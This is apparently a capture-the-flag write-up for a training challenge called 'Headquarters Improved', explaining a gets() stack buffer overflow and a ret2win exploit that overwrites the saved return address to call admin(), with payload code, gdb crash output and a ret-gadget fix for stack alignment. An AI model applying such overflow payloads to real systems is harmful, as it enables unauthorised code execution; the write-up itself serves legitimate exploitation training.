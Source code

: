# Headquarters Improved

Refer to [`solve.py`](solve.py) for script.

## Vulnerability

The same `gets()` vulnerability exists, same as per `headquarters`. However, this time our goal isn't to overwrite a variable. Our goal is to perform ret2win and overwrite the return address to the `admin()` function, which will give us the flag.

## Exploit

The stack looks like this:

```
top of stack
--------------------------------
|         char name[32]        | < 32 bytes
--------------------------------
|  return based pointer (rbp)  | < 8 bytes
--------------------------------
|  saved return pointer (rip)  | < 8 bytes
--------------------------------
bottom of stack
```

This time, we need an input with a length greater than 32 in order to overflow into the RBP and RIP. In this challenge, we are only concerned about the RIP.

The saved RIP stores the address of the next instruction to execute, upon returning from a function (i.e. `return`).

We can overwrite this value to the address of `admin()`. 

> [!NOTE]
> PIE is not enabled in this binary, so we are able to directly jump to win() without a leak. If PIE was enabled, our binary would get loaded into a randomized memory address each run, and we would have required a leak.

Thus, the payload is like this:

```python
payload = b'A'*32 # fill up the `name` buffer
payload += b'B'*8 # fill up the RBP
payload += p64(elf.sym.admin) # overwrite RIP to point to admin()
```

However, when running that, we get an error, which we can analyse further using gdb:

```
Program received signal SIGSEGV, Segmentation fault.
0x00007f0444df2973 in __sigemptyset (set=<optimized out>) at ../sysdeps/unix/sysv/linux/sigsetops.h:54
54      ../sysdeps/unix/sysv/linux/sigsetops.h: No such file or directory.
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x000000000040202b  →  "cat flag.txt"
$rcx   : 0x00007f0444eb6887  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x1
$rsp   : 0x00007ffd41842158  →  0x0000000000000001
$rbp   : 0x00007ffd41842518  →  "BBBBBBBB"
$rsi   : 0x1
$rdi   : 0x000000000040202b  →  "cat flag.txt"
$rip   : 0x00007f0444df2973  →  <do_system+115> movaps XMMWORD PTR [rsp], xmm1
$r8    : 0x00007f0444fbea70  →  0x0000000000000000
$r9    : 0x7fffffff
$r10   : 0x00007f0444daf5a8  →  0x000f002200002ab7
$r11   : 0x00007f0444df2d70  →  <system+0> endbr64
$r12   : 0x00007ffd41842628  →  0x00007ffd41842fe8  →  "/home/ctfplayer/ctf-creations/sctf6/training/headq[...]"
$r13   : 0x00007f0444fbe7a0  →  0x0000000000000000
$r14   : 0x00007f0444fbe840  →  0x0000000000000000
$r15   : 0x00007f0445020040  →  0x00007f04450212e0  →  0x0000000000000000
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffd41842158│+0x0000: 0x0000000000000001   ← $rsp
0x00007ffd41842160│+0x0008: 0x000000000040202b  →  "cat flag.txt"
0x00007ffd41842168│+0x0010: 0x00007f0444fbea70  →  0x0000000000000000
0x00007ffd41842170│+0x0018: 0x00000000ffffffff
0x00007ffd41842178│+0x0020: 0x000000000000000d ("\r"?)
0x00007ffd41842180│+0x0028: 0x00007f0444fe4160  →  0x00007f0444da2000  →  0x03010102464c457f
0x00007ffd41842188│+0x0030: 0x00007f0444fbc1b8  →  0x00007f0445001660  →  <_dl_audit_preinit+0> endbr64
0x00007ffd41842190│+0x0038: 0x00000000004011ce  →  <main+0> endbr64
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f0444df2950 <do_system+80>   mov    QWORD PTR [rsp+0x180], 0x1
   0x7f0444df295c <do_system+92>   mov    DWORD PTR [rsp+0x208], 0x0
   0x7f0444df2967 <do_system+103>  mov    QWORD PTR [rsp+0x188], 0x0
 → 0x7f0444df2973 <do_system+115>  movaps XMMWORD PTR [rsp], xmm1
   0x7f0444df2977 <do_system+119>  lock   cmpxchg DWORD PTR [rip+0x1cbe01], edx        # 0x7f0444fbe780 <lock>
   0x7f0444df297f <do_system+127>  jne    0x7f0444df2c30 <do_system+816>
   0x7f0444df2985 <do_system+133>  mov    eax, DWORD PTR [rip+0x1cbdf9]        # 0x7f0444fbe784 <sa_refcntr>
   0x7f0444df298b <do_system+139>  lea    edx, [rax+0x1]
   0x7f0444df298e <do_system+142>  mov    DWORD PTR [rip+0x1cbdf0], edx        # 0x7f0444fbe784 <sa_refcntr>
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "headquarters2", stopped 0x7f0444df2973 in __sigemptyset (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f0444df2973 → __sigemptyset(set=<optimized out>)
[#1] 0x7f0444df2973 → do_system(line=0x40202b "cat flag.txt")
[#2] 0x4011cb → admin()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Basically, the instruciton causing the sigsegv is `movaps XMMWORD PTR [rsp], xmm1`. This is a common error that can occur when the memory address referenced in the instruction is not 16 bytes-aligned (in this case, rsp = 0x00007ffd41842158 which is not 16 bytes aligned).

Thus, to fix that, we can add a ret gadget (aka an address which points to a ret instruction). Doing so will enable rsp to be 16 bytes aligned.

```bash
# to find the gadget
ropper -f headquarters2 

# in the output find this:
0x000000000040101a: ret;
```

Final payload:

```python
payload = b'A'*32 # fill up the `name` buffer
payload += b'B'*8 # fill up the RBP
payload += p64(0x40101a) # ret for stack alignment issues
payload += p64(elf.sym.admin) # overwrite RIP to point to admin()
```

